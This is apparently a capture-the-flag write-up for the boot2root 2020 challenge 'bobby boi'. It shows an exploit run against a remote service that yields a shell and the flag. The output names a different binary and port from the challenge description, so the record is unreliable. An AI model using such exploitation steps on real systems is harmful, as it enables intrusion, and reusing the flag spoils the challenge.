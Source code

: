  bobby boi
493

My boi bobby claims to be the new MC, do you have the bars to defeat him in a rap battle? Bobby will need the length of your bars beforehand tho.

nc 35.238.225.156 1002

Author: Viper_S


```shell
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/roppy_ropper/lsass'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 35.238.225.156 on port 1004: Done
[*] Switching to interactive mode
Hey sorry that is not allowed
$ id
uid=1000(pwnuser) gid=1001(pwnuser) groups=1001(pwnuser),1000(ctf)
$ ls -l
total 688
-r--r--r-- 1 pwnflag pwnflag     35 Dec  6 09:29 flag.txt
-rwsr-xr-x 1 pwnflag pwnflag 698068 Dec  6 09:29 lsass
$ cat flag.txt
b00t2root{R0p_cHa1nS_ar3_tH3_b3st}
```
